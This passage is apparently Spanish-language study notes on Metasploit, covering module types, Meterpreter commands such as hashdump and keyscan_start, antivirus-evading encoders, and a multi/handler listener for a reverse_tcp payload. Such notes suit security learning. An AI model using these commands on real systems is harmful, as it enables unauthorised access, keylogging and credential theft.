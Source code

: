 - ✉️**Payloads** →  
    El "código malicioso" que se ejecuta después del exploit.  
    Ejemplo: `meterpreter/reverse_tcp`.

- 🔣**Encoders** →  
    Ofuscan el payload para evadir antivirus.  
    Ejemplo: `x86/shikata_ga_nai`.

- 🔎**Auxiliary** →  
    No explotan, pero ayudan con **escaneo**, **fuerza bruta**, etc.  
    Ejemplo: `auxiliary/scanner/portscan/tcp`.

- 🧰**Post** →  
    Para **post-explotación** (privilege escalation, keylogging, dumping de hashes).  
    Ejemplo: `post/windows/gather/hashdump`.

 - ⚖️**Nop** →
	 En exploits, se usan para **estabilizar la ejecución del payload** y evitar que un mal cálculo en el salto de memoria haga que falle.
	 Ejemplo: `nop/x86/single_byte`.

## **5. Meterpreter**
- ❓**Qué es:**  
    Un payload avanzado que te da una **shell interactiva** con muchas funciones. Corre en memoria, lo que la hace menos detectable, y permite cargar módulos de post-explotación.
    
- 💻**Comandos útiles:**
    - `sysinfo` → Info del sistema.
    - `getuid` → Usuario actual.
    - `hashdump` → Volcado de hashes.
    - `keyscan_start` → Keylogger.
    - `migrate` → Moverte a otro proceso.

## **6. Multi/Handler**
- **Qué es:**  
    Un módulo auxiliar que actúa como **listener** para esperar conexiones de un payload (por ejemplo, los que se crean con msfvenom).

**Ejemplo**:
```bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <tu_IP>
set LPORT 4444
run
```

---

# **👉Exploit y Payload**

## 🔫**Exploit**
- **Qué es:**  
    Es el **código que aprovecha una vulnerabilidad** en un software o sistema para **ganar acceso o ejecutar algo no autorizado**.  
    Ejemplo: Un exploit que aprovecha un desbordamiento de buffer en Samba.
